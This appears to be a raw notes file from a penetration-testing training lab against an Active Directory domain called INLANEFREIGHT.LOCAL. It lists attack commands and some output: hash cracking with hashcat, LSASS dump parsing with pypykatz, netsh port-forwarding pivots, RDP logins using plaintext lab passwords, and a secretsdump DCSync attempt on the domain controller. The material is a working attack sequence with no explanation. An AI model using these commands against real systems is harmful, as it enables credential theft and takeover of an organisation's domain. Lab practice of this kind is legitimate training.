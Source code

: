 vi tpetty_hash.txt

sudo hashcat -m 1000 --show hashes.txt.ntds

pypykatz lsa minidump lsass.DMP

Sup3rS3cur3D0m@inU2eR

nslookup DC01.INLANEFREIGHT.LOCAL
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  172.16.6.3

Name:    DC01.INLANEFREIGHT.LOCAL
Address:  172.16.6.3

C:\Windows\system32>set L
LOCALAPPDATA=C:\Users\svc_sql.INLANEFREIGHT\AppData\Local
LOGONSERVER=\\DC01

ping DC01

Pinging DC01.INLANEFREIGHT.LOCAL [172.16.6.3] with 32 bytes of data:
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128

xfreerdp /u:tpetty /p:"Sup3rS3cur3D0m@inU2eR" /v:$TARGET:8080

Get-DomainUser -Identity tpetty  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

C:\Windows\system32\netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.71.186 connectport=3389 connectaddress=172.16.6.3

C:\Windows\system32\netsh.exe interface portproxy show v4tov4

C:\Windows\system32\netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.1.79 connectport=3389 connectaddress=172.16.6.50
C:\Windows\system32\netsh.exe interface portproxy show v4tov4

xfreerdp /u:svc_sql /p:"lucky7" /v:10.129.1.79:8080


C:\Windows\system32\netsh.exe interface portproxy add v4tov4 listenport=3389 listenaddress=172.16.6.50 connectport=139 connectaddress=172.16.6.3

secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT.LOCAL/tpetty@10.129.1.79:8080
Sup3rS3cur3D0m@inU2eR

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password:
[-] RemoteOperations failed: [Errno Connection error (10.129.1.79:8080:445)] [Errno -2] Name or service not known
[*] Cleaning up... 


C:\Windows\system32\netsh.exe interface portproxy add v4tov4 listenport=3389 listenaddress=172.16.6.50 connectport=445 connectaddress=172.16.6.3
